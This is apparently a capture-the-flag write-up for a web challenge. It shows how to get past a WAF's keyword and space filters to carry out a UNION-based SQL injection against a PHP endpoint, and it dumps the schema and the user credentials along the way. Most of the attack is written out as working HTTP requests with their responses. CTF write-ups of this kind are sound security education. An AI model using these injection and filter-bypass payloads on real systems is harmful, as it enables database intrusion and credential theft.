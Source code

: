 # Get Me
**Category: Web**
> All secrets belongs to the admin

We kick things off with a login page:

![login](images/login.png)

Viewing the page source shows: 
```html
<!--==================Delete this line: julia.2468@gmail.com:just4julia============================-->
```

We can use these credentials to login and view a profile page. The relevant portion of the page (will be clear why later) is the contact information:

![contact](images/contact.png)

When we look at the network requests made to load this page, we see this api request:
```http
GET /home/getinfo.php?input=Julia HTTP/2
```
Which returns:
```http
HTTP/2 200 OK

julia.2468@gmail.com
```

This email value gets put into the contact email field. The server is likely running something like:
```sql
SELECT * FROM users WHERE username = {}
```

We can attempt a SQL injection with this API.

```http
GET /home/getinfo.php?input='+UNION+SELECT+'1 HTTP/2
```

Interestingly, the API responded with:
```
Hack Detected ....
```

It looks like we are on the right track, but there is a WAF in place to stop us from injecting. I assumed it was blocking spaces, and replaced my spaces with comments.

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/'1 HTTP/2
```

This time around, there was no "hack detected" banner. No results were returned though, likely because the union had the wrong number of columns in it. I added more columns until the API returned data again:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/'1','2','3 HTTP/2
```

```http
HTTP/2 200 OK

1
```

We can see the `1` is returned in our result. Next I queried to find out what kind of database we were dealing with:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/version(),'2','3 HTTP/2
```

```http
HTTP/2 200 OK

10.3.23-MariaDB-0+deb10u1
```

The next step is to figure out what schemas are in the database. The following query will list all the schemas. Note that the `%23` is a `#` line comment that is url encoded.

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(schema_name,"\n"),2,3/**/FROM/**/information_schema.schemata%23 HTTP/2
```

This returned the hack detected banner. It turns out the words `information` and `schema` are on a blacklist too. We can bypass this with capitalization:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(SCHEMA_name,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA%23 HTTP/2
```

```http
HTTP/2 200 OK

information_schema
performance_schema
mysql
test
```

`test` looks good. Let's find the tables now. It turnes out the `=` operator was also blocked, and I had to instead use a `LIKE` clause:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(TABLE_NAME,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA/**/LIKE/**/'test'%23 HTTP/2
```

```http
HTTP/2 200 OK

users
```

For the last bit of information gathering, we can get the columns:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(COLUMN_NAME,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME/**/LIKE/**/'users'/**/AND/**/TABLE_SCHEMA/**/LIKE/**/'test'%23 HTTP/2
```

```http
HTTP/2 200 OK

email
username
password
```

Finally, let's get all the login information:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(username,":",password,"\n"),2,3/**/FROM/**/users%23 HTTP/2
```

```http
Admin:FLAG{I_L0v3_J$_r3q_&_Sqli}
Julia:just4julia
```

`FLAG{I_L0v3_J$_r3q_&_Sqli}`